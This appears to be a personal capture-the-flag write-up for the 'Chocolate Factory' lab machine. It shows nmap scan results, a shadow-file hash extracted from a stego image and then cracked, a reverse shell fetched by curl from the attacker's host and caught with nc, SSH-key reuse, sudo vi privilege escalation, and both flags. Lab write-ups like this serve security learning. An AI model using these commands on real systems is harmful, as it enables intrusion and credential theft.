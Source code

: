 ### Nmap

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 b44502b6248ea9065f6c79448a06555e (ED25519)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
106/tcp open  pop3pw?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
109/tcp open  pop2?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
110/tcp open  pop3?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
111/tcp open  rpcbind?
| fingerprint-strings: 
|   NULL, RPCCheck: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
113/tcp open  ident?
| fingerprint-strings: 
|   GenericLines, GetRequest, NULL, RTSPRequest, SMBProgNeg: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
119/tcp open  nntp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
125/tcp open  locus-map?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"

```

### FTP

1. Anonymous login allowed
2. One image file in ftp

```
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
```

3. Hidden data inside
```
┌─[glack@parrot]─[~/Desktop/THM/chocolate]
└──╼ $steghide extract -sf gum_room.jpg 
Enter passphrase: 
wrote extracted data to "b64.txt".
```

3. It contained the contents of /etc/shadow
```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
...
...
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```


### HTTP

1. Website is running on php
2. Ferox gives this
```
200       32l       48w      569c http://10.10.215.165/home.php
200       69l      131w     1466c http://10.10.215.165/index.html
200        1l        2w       93c http://10.10.215.165/validate.php

```


3. Another hint was given in the nmap result
```
RTSPRequest, SMBProgNeg: 
|_    http://localhost/key_rev_key <- You 
```

4. Downloaded file was given executable permissions using chmod. 
Key inside can be found using
`strings key_rev_key`


```
─[glack@parrot]─[~/Desktop/THM/chocolate]
└──╼ $./key_rev_key
Enter your name: laksdhfas

 congratulations you have found the key:   b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```


5. used this siite to get the format of hashes in `/etc/shadow`
https://www.cyberciti.biz/faq/understanding-etcshadow-file/

6. Used this site to to crack the hash
https://hashes.com/en/decrypt/hash
`$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:cn7824`

7. I am not able to ssh into machine using `charlie:cn7824`. But we can login using the creds in web portal `http://10.10.155.21/home.php`

8. We are able to run RCE which essentially means we can get a reverse shell but how, i used this below method that i found in other machine writeup

```
curl http://10.17.24.189:8000/php-reverse-shell.php -o revshell.php

php7.2 /dev/shm/revshell.php


nc -lnvp 9999

```

9. We get a shell with `www`

### Priv Esc

1. Found a file name `teleport` in /home/charlie
2. It contains private RSA key of charlie, copied it into my systems
3. Used it to login as `charlie` onto the machine

```
─[✗]─[glack@parrot]─[~/Desktop/THM/chocolate]
└──╼ $ssh -i id_rsa charlie@10.10.155.21

```

Machine is very laggy and testing my patience

4. Found the user flag
```
charlie@chocolate-factory:/home/charlie$ cat user.txt
flag{cd5509042371b34e4826e4838b522d2e}
```

5. checked the `sudo -l` command, turns out we can run vi as sudo

6. Used [[Sudo - NOPASSWD vi filename]] this method to escalate privileges and got root

7. They made the root flag interesting
```
print(mess)root@chocolate-factory:/root# python root.py 
Enter the key:  b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='


flag{cec59161d338fef787fcb4e296b42124}

```